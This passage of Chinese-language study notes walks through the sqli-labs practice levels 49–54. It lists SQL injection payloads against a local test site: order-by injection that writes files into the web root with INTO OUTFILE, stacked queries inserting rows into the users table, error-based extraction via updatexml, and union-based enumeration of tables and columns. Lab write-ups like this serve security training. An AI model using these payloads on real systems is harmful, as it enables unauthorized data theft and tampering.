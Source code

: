 注意if 前跟and 


select * from users  order by 1 into outfile '/Applications/XAMPP/htdocs/onlytest/0319.txt';

根据这一特性，可以通过写文件来判断order by 注入效果
payload:
http://127.0.0.1/sqli-labs/Less-49?sort=2'%20into%20outfile%20%20 "/Applications/XAMPP/htdocs/onlytest/0320.txt"-- -

##第50关
Order by 注入，报错注入，堆叠
http://127.0.0.1/sqli-labs/Less-50?sort=1;insert into users (id,username,password) values (15,'dongxie','xidu')-- -
以上这个payload 并不完美，因为没有体现报错。
如下payload可以体现报错，但没有体现堆叠
http://127.0.0.1/sqli-labs/Less-50?sort=1 and(updatexml(1,concat(0x7e,(select user())),0)) -- -

##第51关
http://127.0.0.1/sqli-labs/Less-51?sort=1';insert into users (id,username,password) values (16,'nandi','beigai')-- -

##第52关
盲注
与第50关的区别，就是50管存在mysqli_error($con1)函数
http://127.0.0.1/sqli-labs/Less-52?sort=1;insert into users (id,username,password) values (17,'wangchaohyang','linchaoying')-- -

##第53关
与第52关差不多，主要是字符串类型，盲注入
http://127.0.0.1/sqli-labs/Less-53?sort=1';insert into users (id,username,password) values (18,'linghuchong','renyingying')-- -





#Page-4 (Challenges)

##第54关 

目标：十次内获得key 的值，每次都随便变化表明、列明 

$sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1"; 



http://127.0.0.1/sqli-labs/Less-54/index.php?id=-1' union select 1,database(),version() — - 



查询哪些表 

http://127.0.0.1/sqli-labs/Less-54/index.php?id=-1' union select 1,2, table_name from information_schema.tables where table_schema=database() — - 

//HLRAMAT8OB 

查询哪些列 

http://127.0.0.1/sqli-labs/Less-54/index.php?id=-1' union select 1,2, group_concat(column_name) from information_schema.columns where  table_name='HLRAMAT8OB’ -- - 
